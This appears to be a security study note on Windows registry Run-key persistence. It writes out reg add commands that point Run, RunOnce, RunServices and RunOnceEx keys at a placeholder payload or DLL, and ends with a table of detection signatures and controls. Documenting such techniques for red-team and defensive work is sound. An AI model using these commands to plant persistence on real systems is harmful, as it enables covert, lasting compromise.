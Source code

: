 ## Terminal
Registry keys can be added from the terminal to the run keys to achieve persistence. These keys will contain a reference to the actual payload that will executed when a user logs in. The following registry locations is known to be used by threat actors and red teams that use this method of persistence.
```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
```

If elevated credentials have been obtained it is preferred to use the Local Machine registry locations instead of the Current User as the payload will executed every time that the system boots regardless of the user who is authenticating with the system.
```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
```

[Oddvar Moe](https://twitter.com/Oddvarmoe) discovered two more registry locations that could allow red teams to achieve persistence by executing either an arbitrary payload or a DLL. These will be executed during logon and require admin level privileges.
```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.dll"
```
[2](https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/)

# Mitigations for Registry Persistence
|Technique|Modern Detection Signature|Recommended Control|
|---|---|---|
|Boot Verification Hijack|`services.exe` launching non-MS signed binaries post-boot|WDAC + Protected Service policies|
|SMSS Configuration|Unexpected entries in `BootExecute` multiline string|Baseline monitoring of Session Manager keys|
|RDP Startup Abuse|`termsvcs.dll` anomalies in RDP sessions|Restrict `rdpwd` key modifications|
|App Paths Hijacking|Non-standard EXE paths in App Paths keys|Registry access control (JEA)|
# Resources
1. https://r4bb1t.medium.com/windows-persistence-registry-run-keys-e9acb20c4a7d
2. https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/
3. https://www.cyberark.com/resources/threat-research-blog/persistence-techniques-that-persist

#windows #registry #persistence